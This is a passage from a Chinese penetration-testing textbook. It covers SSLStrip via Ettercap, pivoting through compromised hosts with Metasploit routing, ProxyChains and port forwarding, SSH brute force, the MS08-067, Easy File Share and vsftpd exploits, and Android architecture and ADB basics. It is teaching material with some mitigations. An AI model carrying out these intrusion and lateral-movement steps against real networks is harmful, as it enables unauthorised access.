在本例中我们使用了 HTTP 协议，但在现实世界中，HTTPS 协议用于保护通信安全。在这种情况下，作为攻击者，您会怎么做？攻击者将应用 **SSLStrip** 概念（如*图 8.24*所示），**SSLStrip** 是一种 MITM 攻击，强制用户使用 HTTP 协议而非 HTTPS 进行通信，从而使攻击者能以明文形式查看所有 SSL 流量。**HTTP 严格传输安全（HSTS）** 是一种安全防护机制，可保护您免受此类威胁：


**图 8.24：** SSLStrip 概念

要使用 SSLStrip 概念，我们将在 Ettercap 程序中激活 SSLStrip 插件。在菜单栏上，点击 `Plugins`，然后 `Manage the plugins`，再双击 `sslstrip` 插件。激活后左侧会出现 `*` 标记（如*图 8.25*所示）：


**图 8.25：** SSLStrip 插件

恭喜！您已成功实施完整的 MITM 攻击。

要停止攻击，请选择 `Stop sniffing`（如*图 8.26*所示）：


**图 8.26：** 停止嗅探

攻击终止后，Ettercap 将发送 ARP 数据包，网络将在几分钟内恢复正常。使用 ARP 检测工具（如 XArp 或 Snort）可防范此类攻击。分配静态 ARP 条目也有助于防止攻击。这会告知攻击者路由器的 MAC 地址是固定且不可修改的，因此攻击者发送的所有 ARP 数据包都将被忽略。

## Metasploit

对于渗透测试人员和 IDS 开发人员，Metasploit 是最知名的开源工具。Metasploit 框架是一个安全漏洞利用和脚本数据库。它是编写和在目标系统上运行漏洞利用代码的最广泛使用的开源工具之一。


## 无线后渗透

## 简介

欢迎来到本章！在上一章中，我们攻破了单个网络目标。那么，接下来会发生什么呢？攻击者必将深入网络内部，以内部工作站和服务器为目标。

纵深防御的理念在信息技术领域占据重要地位，它要求构建一个 n 层安全架构来保护关键服务。结合企业网络来看：关键系统不能直接连接到其他系统。在本章中，我们将探讨攻击者如何利用跳板技术访问最初无法访问的隐藏网络。

## 结构

本章将涵盖以下主题：

*   什么是路由？
*   什么是跳板？
*   攻破第一跳板与端口转发
    *   通过跳板使用 Nmap
    *   端口转发
*   通过跳板进行 SSH 暴力破解
*   获取对第二跳板的访问权限
*   双重跳板
*   缓解措施

#### 目标

在本章中，你将学习如何使用第一级跳板和双重跳板来探测隐藏网络，以及相应的缓解方法。

### 什么是路由？

路由是定义不同网络中的设备如何相互通信的过程。路由通常借助称为*路由器*的设备来完成。路由器使用路由表将网络数据包路由到其预期目的地。路由不仅可以在路由器等网络设备上进行，也可以在安装了操作系统的任何计算机上进行。请参阅**图 9.1**：


**图 9.1：** 路由

根据上图示例，要在 `192.168.1.0/24` 和 `192.168.10.0/24` 网络之间成功通信，需要一条路由表记录。根据路由器的规则，从源 `192.168.1.0/24` 访问目标 `192.168.10.0/24`。

网络数据包的传输历程如下：

1.  要访问的 IP 地址是否在本地网络上？
    1.  如果是，直接到达目的地。
    2.  如果不是，发送给网关。
2.  路由器接收数据包后，检查自己的路由表。
    1.  是否有针对目标 IP 地址或网络的路由规则？
        1.  如果有，将数据包发送给目标或目的地。
        2.  如果没有，发送给网关。
3.  其他路由器经历类似的过程。
4.  最后，数据包到达负责机构互联网出口的路由器。随后数据包被发送到互联网。

### 什么是跳板？


从本质上讲，这是一种利用被攻陷的计算机来访问我们原本无法访问的网络的做法。如果一台具有网络访问权限的计算机被攻陷，网络隔离将变得毫无意义。这种方法允许攻击者通过路由到被攻陷的系统来访问秘密网络。枢纽用于将所有请求传输到新发现的网络。它就像一种隧道。请参阅 图 9.2：


**图 9.2：** 枢纽

如拓扑所示，具有两块 NIC 的设备可以访问 `192.168.1.0/24` 和 `192.168.10.0/24` 网络。除非定义了路由规则，否则在正常情况下这两个网络之间无法互访。根据此拓扑，授权用户正在使用一台配有两块 NIC 网卡的计算机，必须访问 DMZ 中的某些服务。

## 攻陷第一个枢纽和端口转发

根据我们的攻击场景，在名为 RD 的系统上获得的 meterpreter shell 同样连接到了 DMZ 网络。通过信息收集过程，后来发现目标拥有两块 NIC。

**环境的路由器不在网络间路由。**

图 9.3 说明了第一个枢纽：


**图 9.3：** 第一个枢纽

图 9.4 说明了 `Meterpreter_1`：


**图 9.4：** Meterpreter\_1

图 9.5 说明了 `Meterpreter_2`：


**图 9.5：** Meterpreter\_2

根据我们的场景，获得 RD 系统访问权限的攻击者将希望使用第二块 NIC (7.7.7.0/24) 来访问网络。为此，攻击者首先需要在 RD 上定义路由规则。

使用 Metasploit，这很简单。要使用当前的 meterpreter 会话建立路由规则，请执行以下命令。请参阅 图 9.6：


**图 9.6：** Meterpreter\_3

根据建立的规则，如果 ID 值为 2 的 meterpreter 会话处于运行状态，则可以在 Metasploit 框架中访问 7.7.7.0/24 网络，如 图 9.7 所示。

然后使用 ARP 扫描器等后渗透模块发现 JC 系统的 IP 地址。在隐藏网络中发现的另一台计算机——7.7.7.20——是 JC。

请参阅 图 9.7：


**图 9.7：** Meterpreter\_4

7.7.7.0/24 网络中存活系统的 IP 地址已确定，包括名为 JC 的系统。请参阅 图 9.8：


**图 9.8：** 隐藏网络

自然而然会产生下一个问题：是否会使用 nmap 风格的扫描工具来代替 `arp_scanner` 等后渗透模块进行此类扫描工作？

## 通过枢纽使用 Nmap

要实现这一点，Metasploit 的路由配置必须处于激活状态，且能够通过 socks4 代理发送。可以使用另一个 Metasploit 模块来满足此要求。

作为 Metasploit 模块的 socks4 代理的使用可见于 图 9.9：


**图 9.9：** socks4 代理

使用为 GNU/Linux 操作系统构建的 ProxyChains 实用程序，任何 TCP 连接都可以通过 TOR 或 SOCKS4、SOCKS5 或 HTTP/HTTPS 路由到目标。在此隧道方法中可以使用许多代理服务器。除了提供匿名性外，像枢纽这样的应用程序可用于将流量转移到新发现的网络。请参阅 图 9.10：


**图 9.10：** ProxyChains

在文本编辑器中打开 `/etc/proxychains.conf` 文件，将新建的 socks4 代理服务器的信息添加到最后一行。请参阅 图 9.11：


**图 9.11：** Proxychains.conf 文件

使用 ProxyChains 执行 nmap 扫描是一种简单的方法。网络数据包将通过定义的代理发送到目标。请参阅 图 9.12：


**图 9.12：** Nmap 输出\_1

另请参阅 图 9.13：


**图 9.13：** Nmap 输出\_2

根据扫描结果，目标机器上将运行 SSH 和 HTTP 服务。在继续进行利用之前，我们将研究一种称为端口转发的不同类型的流量路由。

## 端口转发

端口转发是枢纽的第一步之一。隐秘网络上指定系统的某些服务可能无法直接访问（Web 服务器等）。这是由于缺乏双向路由。我们知道如何到达目标系统并发送请求，但因为目标不知道我们的位置，我们的请求将被拒绝。请参阅 图 9.14：


**图 9.14：** 端口转发

因此，我们使用当前的 meterpreter 会话将本地系统上的一个端口路由到目标。只要此进程存活，路由就会生效。

此时需要注意一点：`autoroute` 运行命令允许我们得益于所提供的路由，在 Metasploit 框架内自由工作。然而，我们将需要像端口转发和 ProxyChains 这样的工具，以便使用 Kali 工具访问目标。

端口转发可以使用 `portfwd` 模块完成，它是 Metasploit 的后渗透模块之一。请参阅 图 9.15：


**图 9.15：** 使用 Metasploit 进行端口转发

当我们使用互联网浏览器向本地 `2323` 端口提交链接请求时，连接请求将被转发到 IP 地址为 7.7.7.20 的计算机的 80 端口。

ProxyChains 和 Nmap 之前已在 7.7.7.20 的第 80 个 TCP 端口上识别出正在运行的 Web 服务。要使用此服务，请将本地系统上的端口 `2323` 转发到我们想要使用的 7.7.7.20 端口 `80`。请参阅 图 9.16：


**图 9.16：** 端口转发命令

活动规则可以使用 `portfwd list` 命令查看。请参阅 图 9.17：


**图 9.17：** Portfwd list 命令

当验证 IP 地址为 7.7.7.20 的目标系统上运行在 80 端口的程序时，将检测到 Easy file sharing Web Server。请参阅 图 9.18：


**图 9.18：** Easy file sharing Web server

## 通过枢纽进行 SSH 暴力破解

正如您所知，在 7.7.7.20 上识别出了 SSH 服务。对此服务进行暴力破解攻击很简单。`SSH_enumusers` 辅助模块允许用户枚举，如 图 9.19 所示：


**图 9.19：** SSH\_enumusers 模块输出\_1

另请参阅 图 9.20：


**图 9.20：** SSH\_enumusers 模块输出\_2

除了 Metasploit 框架上的辅助模块外，还可以使用 Hydra 等 Kali 工具进行攻击。如果 Hydra 部署在 ProxyChains 中，所有流量将通过被攻陷的系统重定向到目标系统。请参阅 图 9.21：


**图 9.21：** Kali Linux 中的 Hydra 工具

通过代理服务器使用在 Hydra 暴力破解攻击期间获得的 admin 用户名和密码 123456 通过 SSH 连接到目标系统。请参阅 图 9.22：


**图 9.22：** SSH 连接

## 获取对第二个枢纽的访问权限


我们对 `7.7.7.0/24` 网段的 nmap 扫描揭示了两个漏洞，正如你可能记得的那样。它们分别是 MS08-067 和 Easy File Share 程序中的缓冲区溢出漏洞。这两种方法均可用于获取目标系统的访问权限。另一种选择是继续使用 SSH，但目前我们将坚持使用 MS08-067 和 Easy File Share。

## 使用 Bind TCP 的 MS08-067

Metasploit Framework 模块 `exploit/windows/smb/ms08_067_netapi` 可用于通过利用 MS08-067 漏洞来攻陷目标机器。选择 Bind TCP 作为载荷类型这一事实至关重要。由于未指定双向路由，目标系统将无法直接联系我们。因此，必须选择 Bind TCP 载荷类型，以便目标在自己的端口上等待连接。在成功的利用过程之后，将连接到目标系统正在监听的端口。

*图 9.23* 演示了 Reverse TCP 和 Bind TCP 连接的工作原理：


**图 9.23：** Reverse TCP 连接和 Bind TCP 连接

如 *图 9.24* 所示，使用 MS08-067-Netapi 利用模块和 Bind TCP 载荷攻陷受害者：


**图 9.24：** MS08-067-Netapi 利用输出 _1

另请参阅 *图 9.25*：


**图 9.25：** MS08-067-Netapi 利用输出 _2

请参阅 *图 9.26*：


**图 9.26：** MS08-067-Netapi 利用输出 _3

## Easy File Share 缓冲区溢出

Easy File Share 应用程序也存在漏洞。可以采取以下步骤设置带有 Bind TCP 载荷的利用模块并攻陷目标，如 *图 9.27* 所示：


**图 9.27：** Easy File Share 利用输出 _1

另请参阅 *图 9.28*：


**图 9.28：** Easy File Share 利用输出 _2

另请参阅 *图 9.29*：


**图 9.29：** Easy File Share 利用输出 _3

在最后一种情况下，攻击者到达的位置如 *图 9.30* 所示：


**图 9.30：** 隐藏网络布局

我们现在可以访问 `7.7.7.20` 机器。我们将不得不进行更多的数据收集。与 RD 机器一样，名为 JC 的机器有两块网卡。我们发现了第二个隐藏网络（`8.8.8.0/24`）。请参阅 *图 9.31*：


**图 9.31：** 使用 ipconfig 进行数据收集

让我们通过在第二个隐藏网络上执行 ARP 扫描器来继续信息收集。请参阅 *图 9.32*：


**图 9.32：** arp_scanner 模块

ARP 扫描显示在此网络中发现了四台机器。请参阅 *图 9.33*：


**图 9.33：** Autoroute 命令

我们再次添加路由定义。

## 双重跳板

在对 JC 系统的信息收集操作期间，发现了 `8.8.8.0/24` 网络。得益于第一台被攻陷的系统，我们已经在 `172.16.0.0/24` 和 `7.7.7.0/24` 网络之间建立了路由规则。

从 `172.16.0.20` 发送到 JC 设备（第二台被感染机器）的网络数据包首先被发送到 RD 设备（第一台被攻陷机器），然后 RD 将其转发给 JC 机器。

攻击者计算机（`172.16.0.20`）尝试联系 `8.8.8.9` 位置将经历两个阶段：

*   **RD**：我们不知道如何访问 `8.8.8.9` IP 地址。但我们知道系统，以及谁知道如何访问它。我们可以指引你到达那里。
*   **JC**：我们知道如何将数据包从 `7.7.7.0/24` 网络转发到 `8.8.8.0/24` 网络。

*图 9.34* 是被攻陷和发现的系统的最终情况：


**图 9.34：** 被攻陷系统的最终状态

## 神奇的 ProxyChains

ProxyChains 工具建立并发送从头到尾的代理服务器链接。在本地 1081 端口，为新发现的 `8.8.8.0/24` 网络启动了一个新的 socks4 代理服务器。请参阅 *图 9.35*：


**图 9.35：** Socks4a 模块

新代理服务器的信息将在 `/etc/proxychains.conf` 配置文件中指定。动态链功能确保定义的代理服务器按顺序依次切换。请参阅 *图 9.36*：


**图 9.36：** proxychains.conf 文件

可以使用 ProxyChains 工具通过第二个跳板系统配合 nmap 实用程序扫描 `8.8.8.9` 目标。请参阅 *图 9.37*：


**图 9.37：** Nmap 输出 _1

另请参阅 *图 9.38*：


**图 9.38：** Nmap 输出 _2

正如你所见，数据包首先通过第一个代理服务器中转，然后继续前往我们设置的第二个代理服务器。最终到达目的地。当分析扫描结果时，将确定 `8.8.8.9` 上的 vsftpd 服务存在漏洞。

使用以下方法在 Metasploit 框架中准备 vsftpd 利用模块并攻陷我们的最终目标。请参阅 *图 9.39*：


**图 9.39：** vsftpd 利用输出 _1

另请参阅 *图 9.40*：


**图 9.40：** vsftpd 利用输出 _2

## 缓解措施

一些缓解措施如下：

*   应从当前网络拓扑中移除允许 DMZ 访问的多网卡系统。
*   应仅使用 DMZ 结构来访问 DMZ 中的系统。

## 结论

攻击者通过遵循以下步骤发现了两个不同的隐藏网络：

1.  攻击者获得了与攻击者处于同一网络的 RD 机器的访问权限。
2.  然后他注意到 RD 机器有两个网络接口。
3.  使用 autoroute 后渗透模块，他创建了一条路由规则。
4.  攻击者随后在 `7.7.7.0/24` 网络上运行了 ARP 和 NMAP 扫描，并发现了一台名为 JC 的机器。
5.  JC 有两个不同的漏洞。Easy File Share 和 MS08-067。
6.  成功利用 MS08-067 后，攻击者获得了对 `7.7.7.20` 网络的访问权限。
7.  信息收集显示 JC 也有两个网络接口。
8.  在 `7.7.7.20` 上定义了另一条路由规则。
9.  在 `8.8.8.0/24` 上使用了 ARP 和 NMAP。
10. 易受攻击的 vsftpd 正在 `8.8.8.9` 的 SK 机器上运行。

请参阅 *图 9.41*：


**图 9.41：** 隐藏网络的最终布局

虽然攻击者的机器最初只能访问其连接的第一个网络，但这些攻击也使他获得了对两个隐蔽网络的访问权限。

## 问题

1.  什么是路由？
2.  什么是跳板？
3.  什么是端口转发？

# 第 10 章

# Android 渗透测试

## 简介


## 智能手机与 Android 架构

智能手机已普及全球，拥有超过 10 亿用户，Google 和 Apple 的数字应用市场上提供了 250 万款应用（且仍在增加）。它们对我们生活的影响是即时且深远的，以多种方式影响着我们的日常生活，包括我们如何连接、工作和社交。消费者需求的增长，以及智能手机处理能力和功能的提升（如存储、GPS、摄像头、屏幕及其他特性），已改变了移动应用开发的范式。网上银行、交易、电子邮件、机场值机等众多功能，皆可通过一次点击即可实现。

在本章中，我们将涵盖开始对 Android 应用进行黑客攻击和渗透测试所需的所有信息。我们将讨论 OWASP 移动应用十大漏洞，以及如何攻击 Android 应用及其弱点，并附带示例。

## 结构

本章将涵盖以下主题：

*   Android 架构
*   Android 渗透测试环境搭建
*   Android 渗透测试工具
*   安全的 Android 应用

#### 目标

在本章中，你将详细了解 Android 架构，学习如何搭建 Android 渗透测试环境，并了解流行的 Android 渗透测试工具。最后，你将学习如何保护你的 Android 应用。

### Android 架构

对于任何开发者或安全研究人员而言，理解任何平台的架构都至关重要。Android 的硬件抽象层基于 Linux 2.x 和 3.x 内核。

它由以下部分组成：

*   关键应用
*   操作系统
*   中间件
*   运行时环境
*   不同的服务
*   原生库和自定义库

如图 10.1 所示，它可以表示为五层：


**图 10.1：** Android 架构

所有组件均经过微调和整合，以提供开发和执行移动应用的最佳环境。

现在，让我们采用自底向上的方法来了解 Android 技术栈的各个层级。

### Linux 内核

Linux 内核是 Android 操作系统的核心。之所以选择 Linux 作为最佳起点，是因为其灵活的可移植特性，允许在各种硬件平台上轻松编译应用。

位于软件栈底部的 Linux 内核支持进程管理/调度、内存管理和设备管理。它还充当关键的抽象层，通过提供对多种设备驱动程序的访问，允许应用与物理设备通信。

屏幕根据移动设备方向自动进行倾斜/旋转调整，就是一个简单的例子。这涉及以下问题：

*   这是如何发生的？
*   是什么触发设备执行此操作？
*   操作系统如何得知设备方向已改变？

让我们仔细看看。

加速度计和陀螺仪是设备中的硬件传感器，它们检测微小的运动和方向变化，并将此数据传递给内核。设备驱动程序将这些信息转换为软件指令，应用程序会捕获这些指令；如果应用旨在响应这些指令，它就会做出响应。正如图 10.2 所示，Linux 内核包含硬件正常运行所需的所有驱动程序，以及电源管理。

简而言之，Linux 内核负责内存、资源、电源和驱动程序管理。


**图 10.2：** Linux 内核

### Linux 与 Linux 内核的混淆

“Linux”这一名称通常用于指代完整的操作系统，而“内核”指的是操作系统的核心。Android 基于 Linux 内核这一事实，并不意味着它是另一个 Linux 发行版；这仅意味着 Linux 是基础操作系统，并非所有 Linux 程序都能在 Android 上加载运行。

### Android 运行时

虽然 Android 使用 Java 编写，但 `Dalvik 虚拟机` (`DVM`)、核心 Java 库以及一个名为 `Android 运行时` (`ART`) 的新虚拟机构成了 Android 架构的运行时层。

图 10.3 来自 Android 4.4 KitKat，它允许开发者创建 ART 应用：


**图 10.3：** Android 运行时 (ART) 选项

用 Java 编写的应用在 `DVM` 上执行。由于许可问题，`DVM` 不声称是 `Java 虚拟机` (`JVM`)，尽管它服务于相同的目的。原因在于 Dalvik 旨在运行于低功耗和低内存设备上。出于性能原因，`DVM` 仅启动一次。一个名为 `Zygote` 的系统服务会克隆其每个新实例。Android 运行时的结构如图 10.4 所示：


**图 10.4：** Android 运行时核心库

### Java 虚拟机

当我们构建 Java 应用时，会得到字节码。此字节码可由 `JVM` 执行，`JVM` 是一种虚拟机（虚拟机是一种充当操作系统的程序）。图 10.5 描绘了 Java 程序的编译过程：


**图 10.5：** Java 程序编译过程

### Dalvik 虚拟机

在 Android 中，由 `JVM` 创建的字节码被送入 `DVM`，后者生成一种称为 `.dex` 的轻量级格式。

为什么有必要将 Java 字节码转换为 `.dex` 格式？

答案是：移动设备不像 PC 那样拥有同等的算力、内存和 RAM。这解释了为何我们需要越来越轻量级的应用。在 PC 上，Java 字节码适用于重量级应用。`DVM` 在生成 `.dex` 文件前，会使用压缩技术消除类中的冗余信息。例如，如果你的 Java 源代码有 1000 个类，所有这 1000 个类将在 Dalvik 可执行格式 (`.dex`) 中作为单个文件存在。

Java 源代码 (`.java`) 转换为 Dalvik 字节码 (`.dex`) 的过程如图 10.6 的流程图所示：


**图 10.6：** .java 到 .dex 的转换

### Zygote

`Zygote` 是 Android 设备启动时最先启动的程序之一，负责以下工作：

*   启动虚拟机
*   预加载核心库
*   初始化各种共享结构

### 核心 Java 库

这些库不同于核心 Java 库中的 Java SE 和 Java ME 库。它们通常被称为 Dalvik 库。其中包括：

*   **DVM 专用库**：这些库旨在直接与 `DVM` 实例通信。开发者社区不太可能使用它们。
*   **Java 互操作库**：这些只是核心 Java 运行时库中类的集合；通常这些库协助文件操作、字符串处理和其他网络任务。

### ART

当 Google 发布 Android Lollipop 时，`DVM` 被 `ART` 完全取代。`ART` 相较于 `DVM` 具有以下优势：

*   **预编译** (`AOT`) 与旧时的 **即时编译** (`JIT`) 对比
*   改进的垃圾回收
*   更好的应用性能

ART 代码的编译过程如图 10.7 所示：


**图 10.7：** Dalvik 与 ART 编译的对比

### 原生库

在使用 Java 进行开发时，某些底层组件无法直接交互。例如，如果你需要在设备屏幕上显示图形，将无法直接用 Java 编写代码；相反，你需要编写一个函数或方法，来调用其他非 Java 程序的原生程序。

Android 中的原生库是非 Java 程序。这些库使用多种语言编写，包括 C、C++ 等。Android `原生开发工具包` (`NDK`) 包含大量库和头文件，允许开发者创建和构建各种 Activity，用于安装这些原生代码。

*图 10.8* 展示了 Android 平台上当前可用的众多原生库：


**图 10.8：** 原生库

任何 `原始设备制造商` (`OEM`) 均可对其进行定制。库模块通常包含以下项目：

*   **媒体框架：** 该框架基于 PacketVideo OpenCore 平台构建，支持常见的音频、视频和静态帧格式以及编解码器插件。StageFright 漏洞是通过利用媒体框架 (`libStageFright`) 的缺陷发现的，该缺陷让攻击者能够通过一项自动播放通过 MMS 或其他方式接收的视频文件的功能，获得对 Android 设备的完全远程访问权限。

*   **Surface Manager (界面管理器)：** 支持显示子系统，并渲染许多应用程序的 2D 和 3D 图形图层。

*   **Freetype：** 用于渲染位图和文本。

*   **OpenGL ES：** OpenGL 是一个跨平台图形 API，为 3D 图形处理器定义了软件接口。

*   **安全套接字层** (`SSL`)**：** 基于 OpenSSL (`www.openssl.org`)。

*   **SQLite：** 应用程序框架 API 使这个轻量级关系数据库引擎可供任何应用程序使用。

*   **WebKit：** 这是一个基于 WebKit 浏览器 (`www.webkit.org`) 的浏览器引擎，支持页面渲染、完整的 CSS、JavaScript、DOM 和 AJAX，以及单栏和自适应视图渲染。

*   **SGL** (即 **可伸缩图形库** 的缩写)：** 用于 2D 图形库。

*   **libc：** 源自 BSD 的标准 C 系统库，用于基于嵌入式 Linux 的设备。

### 应用程序框架

应用程序框架为开发者提供了创建更复杂应用或工具所需的工具。该框架用于管理应用程序的完整开发生命周期。

例如，正在开发需要通知功能应用的开发者，无需编写一行代码；只需调用 `Notification Manager` (通知管理器) API 即可。操作 Android 智能手机所需的大多数 API 都由该框架提供。

*图 10.9* 展示了 Android 平台当前可用的框架列表：


**图 10.9：** 应用程序框架

该框架中的关键服务如下：

*   **Activity Manager (活动管理器)：** 活动管理器管理应用的完整生命周期，还负责处理活动的多种状态，以确保使用不同进程的应用平稳运行，我们将在下一节深入探讨。

*   **Content Providers (内容提供者)：** 该组件使应用程序能够与其他应用共享和发布数据。内容提供者负责封装数据、定义数据安全性和控制数据结构。例如，当用户对应用的所有输入都被结构化并保存在 SQLite 数据库中时。

*   **Resource Manager (资源管理器)：** 资源管理器管理对所有未在应用中编码的嵌入式资源的访问，例如图形、本地化字符串和其他布局文件。

*   **Notifications Manager (通知管理器)：** 为移动用户提供通知并显示警报。

*   **View System (视图系统)：** 视图系统监管多种视图、事件分发以及其他重要的按钮和列表。

*   **Package Manager (包管理器)：** 控制设备上安装的所有应用程序包。

*   **Telephony Manager (电话管理器)：** 为设备提供电话服务，如状态和用户信息。

*   **Location Manager (位置管理器)：** 提供关于位置变化的位置服务，允许应用接收更新。

*   **Window Manager (窗口管理器)：** 监管向用户显示的屏幕组织，并在应用程序生成并在显示窗口上适当分层时，为界面提供决策能力。

### 应用层

这是 Android 技术栈的第一层，绝大多数用户通过应用程序与手机进行交互。如 *图 10.10* 所示，设备上通常有两类应用程序：


**图 10.10：** 应用层

现在，让我们探讨它们的区别。

### 原生 Android 应用或系统应用

系统应用是由制造商预置在手机中并随手机提供的应用程序。电子邮件客户端、短信程序、电话、日历、地图、拨号器、浏览器、联系人及其他应用均默认加载。这些应用通常无法从设备中移除，且位于 `/system` 文件夹中。

### 用户安装的应用或自定义应用

用户可以通过各种分发网络（包括 Google Play 和 Amazon Store）下载并安装这些应用程序。这些应用位于 Android 文件系统的 `/data/data/` 子目录中。在接下来的章节中，我们将详细介绍安全功能的具体细节。

## Android 渗透测试环境搭建

对于任何形式的安全评估，建立一个结构良好的测试环境至关重要。建议从零环境开始，假设你的电脑上没有安装任何东西。建立 Android 应用渗透测试基础设施的硬件和软件要求如下。

本书重点介绍在 Windows 上搭建环境，但你也可以自由尝试 Linux 和其他操作系统。

*   **硬件和操作系统要求：**
    *   运行 Windows 7 (64 位) 的工作站/笔记本电脑

*   **移动设备和操作系统要求：**
    *   Google Nexus 5 或运行 Android 5.0 或更高版本的其他设备 (已 Root)

*   **软件要求：**
    *   Python
    *   Java Development Kit (1.8)

*   **其他要求：**
    *   适用于移动设备的兼容 USB 数据线
    *   网络 Wi-Fi 设备（可使用任何具有网络共享功能的智能手机充当 Wi-Fi 路由器）

为什么测试环境需要一台已 Root 的手机？

原因很简单：为了能够在设备上编辑和安装任何工具，并运行来自非典型应用商店的未签名软件。已 Root 的手机将拥有完整的文件系统访问权限。给移动设备 Root 不在本书范围内。

## Android Studio 和 SDK

用于开发 Android 应用的官方 `集成开发环境` (`IDE`) 是 Android Studio，由 Google 支持。2019 年 5 月 7 日，Kotlin 取代 Java 成为开发 Android 应用的首选语言。但 Java 仍在被用于开发 Android 应用。Android Studio Dolphin|2021.3.1 具有以下功能。

*   基于 Gradle 的构建支持。
*   UI 组件可通过布局编辑器中的拖放功能创建。
*   通用的 Android 设计和组件可通过基于模板的向导创建。


*   内置对 Google Cloud Platform 的支持，可实现与 Firebase Cloud Messaging（早期称为 *Google Cloud Messaging*）和 Google App Engine 的集成。
*   Lint 工具，用于捕获性能、实用性、版本兼容性及其他问题。
*   多预览 API。
*   Wear OS 配对助手。

在下载和安装 Android Studio 之前，必须满足以下先决条件。

*   操作系统版本——Microsoft Windows 8/10（64 位）。
*   x86\_64 CPU 架构 第二代 Intel Core 或更高版本，或支持 Windows 的 AMD CPU。
*   随机存取存储器 (RAM)——最低 8 GB RAM 或更多。
*   可用磁盘空间——最低 8 GB，用于 IDE + Android SDK + Android 模拟器。
*   最低要求 JDK 版本——Java Development Kit (JDK) 8。
*   最低屏幕分辨率——1280 \* 800 分辨率。

### Android Studio 的下载与安装

要下载并安装 Android Studio，请遵循以下步骤：

1.  要下载 Android Studio，请在 Web 浏览器中访问 Android Studio 官方网站（**[`developer.android.com/studio/`](https://developer.android.com/studio/)**）。
2.  单击 `Download Android Studio` 选项，如 *图 10.11* 所示：
    
    **图 10.11：** 从网站下载 Android Studio
3.  下载完成后，双击 `Android Studio-ide.exe` 文件。
4.  屏幕上将出现 `Android Studio Setup`，单击 `Next` 继续，如 *图 10.12* 所示：
    
    **图 10.12：** Android Studio 安装向导\_1
5.  选择要安装的组件，然后单击 `Next` 按钮，如 *图 10.13* 所示：
    
    **图 10.13：** Android Studio 安装向导\_2
6.  现在，浏览选择要安装 Android Studio 的位置，然后单击 `Next` 继续，如 *图 10.14* 所示：
    
    **图 10.14：** Android Studio 安装向导\_3
7.  为 `Android Studio` 快捷方式选择一个“开始”菜单文件夹，然后单击 `Install` 按钮继续，如 *图 10.15* 所示：
    
    **图 10.15：** Android Studio 安装向导\_4
8.  安装成功完成后，单击 `Next` 按钮，如 *图 10.16* 所示：
    
    **图 10.16：** Android Studio 安装向导\_5
9.  单击 `Finish` 按钮继续，如 *图 10.17* 所示：
    
    **图 10.17：** Android Studio 安装向导\_6
10. 现在，你的 Android Studio 欢迎屏幕将出现在屏幕上，如 *图 10.18* 所示：
    
    **图 10.18：** Android Studio 安装向导\_7

### Android SDK

Android SDK 允许开发者为 Android 平台创建、测试和调试应用。它包含开发 Android 应用所需的所有软件库、API、模拟器系统映像、文档和其他资源。我们已经随 Android Studio 一起安装了 Android SDK，因此掌握如何充分利用 SDK 的内置功能至关重要。本节概述了我们将在渗透测试演练中用于攻击 Android 应用的一些关键工具。

### Android Debug Bridge

这就是我们在本章 *Android Architecture* 部分讨论的内容。它是一个简单而强大的命令行工具，将用于与 Android 设备进行交互和操作。要在物理设备上通过 ADB 连接，必须启用 USB 调试。在运行 Android v9 的 Galaxy Note 10 上，你可以通过进入 `Settings` | `Developer` settings 来访问此选项，如 *图 10.19* 所示。

如果不可见开发者选项，是因为它们被禁用了；你可以通过点按 Build number 字段来启用它们，该字段可通过进入 `Settings` | `About Phone` | `Software information` | `Build number` 找到。你总共应该点按七次。

请参阅 *图 10.19*：


**图 10.19：** Android 调试桥

以下是测试过程中将用到的一系列 ADB 命令。

### 连接设备

设备连接到工作站后，使用 `adb devices` 命令查看设备是否已使用正确的设备驱动程序正确设置。此命令显示连接到工作站的所有设备列表。请参阅 *图 10.20*：


**图 10.20：** ADB devices 命令\_1

当你在未加载移动设备驱动程序的情况下运行此命令时，将获得一个空列表，如 *图 10.21* 所示：


**图 10.21：** ADB devices 命令\_2

在这种情况下，你可能需要从设备制造商的网站下载并安装设备驱动程序。

### 获取设备访问权限

正如本章 *Android Architecture* 部分详述的那样，Android 基于 Linux 内核。你可以使用 ADB 连接到 Shell 并在移动设备上执行命令。如果启用了 `Allow USB Debugging` 选项，则可以在已获取 Root 权限或未获取 Root 权限的设备上使用 `adb shell` 命令，如以下命令行输出所示。你将获得一个带有一些限制的标准 Shell。你可能需要通过输入 `su` 进入 Root 模式，这允许你运行大多数 Linux 命令。请参阅 *图 10.22*：


**图 10.22：** ADB shell 命令

如果工作站连接了多台设备，你可能需要使用不同的参数。请参阅 *图 10.23*：


**图 10.23：** ADB devices 和 shell 命令

*   `-s` 连接到指定设备
*   `-d` 仅连接到 USB 设备
*   `-e` 仅连接到模拟器

### 向设备安装应用

在评估过程中，将 Android 应用安装到硬件设备或模拟器上是基本前提。你可以使用 `adb install` 命令；这需要要安装的 APK 文件，如 *图 10.24* 所示：


**图 10.24：** ADB install 命令

### 从设备提取文件

为了检查安装和卸载期间存储了什么数据，我们必须确保没有留下可能被恶意应用或用户利用的敏感信息。因此，我们提取文件以进行离线检查，从而访问任何敏感数据。这可以通过使用 `adb pull` 命令并指定设备上的文件位置来完成。我们在 *图 10.25* 中抓取了已获取 Root 权限设备上安装的所有应用：


**图 10.25：** ADB pull 命令

### 向设备存储文件

大多数情况下，我们可能想要将本地文件从桌面复制到 Android 设备。语法是 `adb push` 本地文件 远程位置，其中远程位置是文件应存储的位置。例如，以下命令行输出显示将 `pushme.JPG` 文件从本地工作站移动到设备的 `/sdcard/` 文件夹，如 *图 10.26* 所示：


**图 10.26：** ADB 命令

### 停止服务


在其他情况下，我们可能想要断开设备连接，此时必须重启 ADB 服务器。这可以通过 `ADB kill-server` 命令来完成，该命令将终止 ADB 连接，并在你提供新的 ADB 命令时重新启动它。

### 查看日志信息

通过 logcat，Android 提供了查看系统调试消息的良好视图；使用 `ADB logcat` 命令，如*图 10.27*所示。检查程序和系统在各种缓冲区中收集的多种类型的日志。在评估期间，此功能有可能成为数据泄露的来源：


**图 10.27：** ADB logcat 命令

所有日志都以几种消息类型开头，可以总结如下：

*   `V`：详细
*   `D`：调试
*   `I`：信息
*   `W`：警告
*   `E`：错误
*   `F`：致命
*   `S`：静默

### 旁路加载应用

*旁路加载*通常指将 APK 格式的应用程序包安装到 Android 设备上。此类软件包通常从官方应用商店 Google Play 以外的网站下载。可以在 Android 智能手机上安装自定义 ROM，而 ADB 允许你旁路加载软件。运行 `ADB sideload package.zip`（相当于 `ADB push` 和 `install`）即可实现此目的。

### Monkeyrunner

Monkeyrunner 是一个 Android SDK 实用程序，允许开发人员创建或使用预先存在的应用来控制连接的设备模拟器。

